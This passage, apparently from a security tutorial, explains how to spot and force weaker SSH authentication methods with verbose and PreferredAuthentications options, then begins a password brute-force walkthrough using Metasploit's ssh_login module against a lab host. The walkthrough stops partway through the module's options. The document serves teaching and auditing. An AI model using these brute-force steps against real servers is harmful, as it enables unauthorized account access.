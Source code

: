 Authentication methods
On high security environment it��s a common practice to enable only key-based or two factor authentication rather than the simple factor password based authentication. But often the stronger authentication methods are enabled without disabling the weaker ones. A frequent case is enabling publickey on openSSH configuration and setting it as the default method but not disabling password. So by using the verbose mode of the SSH client an attacker can see that a weaker method is enabled:

$ ssh -v 192.168.1.94
OpenSSH_8.1p1, OpenSSL 1.1.1d  10 Sep 2019
...
debug1: Authentications that can continue: publickey,password,keyboard-interactive
For example if an authentication failure limit is set and you never get the chance to reach the password method, you can use the PreferredAuthentications option to force to use this method.

$ ssh -v 192.168.1.94 -o PreferredAuthentications=password
...
debug1: Next authentication method: password
Review the SSH server configuration is necessary to check that only expected
methods are authorized. Using the verbose mode on the client can help to see
the effectiveness of the configuration.

Attack showcase
Now we��ll see a set of attack examples that you can reproduce on some SSH server implementations.

Password guessing/bruteforce attack
I will now run through an improved variation of ��brute forcing�� an SSH user password with a password dictionary using four tools: the metasploit framework, hydra, medusa and ncrack.

In all cases we will target the machine 192.168.1.94, on port 22 and will bruteforce only the password of the user noraj.

Read the help messages given below if you don��t understand an argument/option.

Metasploit
With Metasploit:

$ msf5 > search ssh

Matching Modules
================

   #   Name                                                        Disclosure Date  Rank       Check  Description
   -   ----                                                        ---------------  ----       -----  -----------
...
   17  auxiliary/scanner/ssh/ssh_login                                              normal     Yes    SSH Login Check Scanner
...
msf5 > use 17
msf5 auxiliary(scanner/ssh/ssh_login) > show options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             22               yes       The target port